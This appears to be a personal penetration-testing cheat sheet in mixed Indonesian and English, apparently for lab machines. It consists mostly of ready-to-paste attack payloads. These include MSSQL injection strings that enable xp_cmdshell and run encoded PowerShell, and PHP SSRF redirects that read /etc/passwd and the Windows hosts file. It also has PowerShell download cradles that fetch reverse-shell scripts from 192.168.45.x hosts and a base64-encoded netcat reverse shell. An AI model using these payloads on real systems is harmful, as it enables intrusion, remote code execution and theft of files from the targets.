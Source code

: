 ```cmd
```
> MSSQL INJECTION (capstone sqli vm4)
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md
```cmd
Dari medtech (chall 1 bisa ini), case: Blind SQLi on Login

1'+or+1=1+--+-+//
asd'%3bselect+@@version;--+-+// >> ini valid woi. Gk ush pake ; juga gpp
asd'+select+@@version+--+-+//
asd'+EXEC+sp_configure+'show+advanced+options',+1+--+-+//
asd'+RECONFIGURE+--+-+//
asd'+EXEC+sp_configure+'xp_cmdshell',+1+--+-+//
asd'+RECONFIGURE+--+-+//
asd'+EXEC+xp_cmdshell+'powershell+-e+JABzA......AfQAgAHMAbABlAGUAcAAgADAALgA4AH0A',+1+--+-+//
```


## POSTGRESQLINJECTION (capstone sqli vm3)
IKUTIN AJA BISA RCE
https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution


6. In case of PHP SSRF, try to use header() function. >> PG Symbolic #30
(wkhtmltopdf)
```php
<?php
header('Location: file:///Windows/System32/Drivers/etc/hosts');
?>
```
```php
<?php
header('Location: file:///etc/passwd');
?>
```

7. Invoke Execute Cradle (IEX) (Check catetan CRTP)
```cmd
powershell.exe -c "iex (New-Object Net.WebClient).DownloadString('http://192.168.45.168:8000/powercat.ps1');powercat -c 192.168.45.168 -p 1234 -e powershell"

powershell.exe -c iex (New-Object Net.WebClient).DownloadString('http://192.168.45.168:8000/Invoke-PowerShellTcpEx.ps1')

cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.45.174:8000/Invoke-PowerShellTcpEx.ps1')
```

8. Utilize base64 payload delivery
```cmd
;echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMTU1IDQ0NSA+L3RtcC9m | base64 -d | bash
```
